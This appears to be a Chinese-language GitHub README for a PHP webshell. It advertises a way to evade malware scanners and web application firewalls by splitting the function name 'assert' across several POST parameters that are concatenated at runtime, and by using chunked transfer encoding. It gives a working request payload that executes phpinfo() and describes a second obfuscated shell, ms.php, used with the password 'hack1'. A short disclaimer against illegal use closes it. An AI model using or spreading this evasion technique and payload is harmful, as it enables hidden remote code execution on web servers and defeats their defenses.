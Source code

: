  # shell
我发现了一种php-shell的新写法，它可以绕过大部分的检测，还可以用分块传输绕过waf
使用post发送如下参数
hack1=ass&hack2=ert&hack3=phpi&hack4=fo()
hack1会和hack2拼接，hack3会和hack4拼接而形成assert(phpinfo())
![1](https://user-images.githubusercontent.com/90552883/229515220-742c99b2-a06f-4f30-99b9-c57b3a1c373a.PNG)
![2](https://user-images.githubusercontent.com/90552883/229515223-ce3efc9e-e456-4421-81c6-1036808c2bbf.PNG)
![3](https://user-images.githubusercontent.com/90552883/229515226-11aaa83e-9ab8-4b24-b30b-cd996e23df69.PNG)
我还编写了通过拼接编码方式来绕过的ms.php(绕过效果比xz.php差) 可以向php一句话一样来使用它 密码（hack1)
欢迎各位提供绕过思路
请勿用于违法行为！！！！！！！！！！！！！！！
